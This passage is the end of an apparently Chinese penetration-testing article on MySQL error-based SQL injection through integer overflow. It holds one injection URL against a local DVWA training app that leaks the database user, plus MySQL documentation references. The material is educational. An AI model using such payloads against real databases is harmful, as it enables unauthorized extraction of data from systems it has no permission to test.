```
    }
}
?>

```

<http://localhost/dvwa/vulnerabilities/sqli/?id=!(select*from(select user())a)-0^222 &Submit=Submit#>

![enter image description here](http://drops.javaweb.org/uploads/images/929cf770fcebda8ea737c24b9571e5da314e2347.jpg)

我希望本文对大家的渗透测试工作能够有所帮助。

0x09 参考资料
=====

[1](http://drops.wooyun.org/wp-content/uploads/2015/08/116.png)[http://dev.mysql.com/doc/refman/5.5/en/integer-types.html](http://dev.mysql.com/doc/refman/5.5/en/integer-types.html)

[2](http://drops.wooyun.org/wp-content/uploads/2015/08/217.png)[https://dev.mysql.com/doc/refman/5.0/en/numeric-type-overview.html](https://dev.mysql.com/doc/refman/5.0/en/numeric-type-overview.html)

[3](http://drops.wooyun.org/wp-content/uploads/2015/08/314.png)[https://dev.mysql.com/doc/refman/5.0/en/mathematical-functions.html](https://dev.mysql.com/doc/refman/5.0/en/mathematical-functions.html)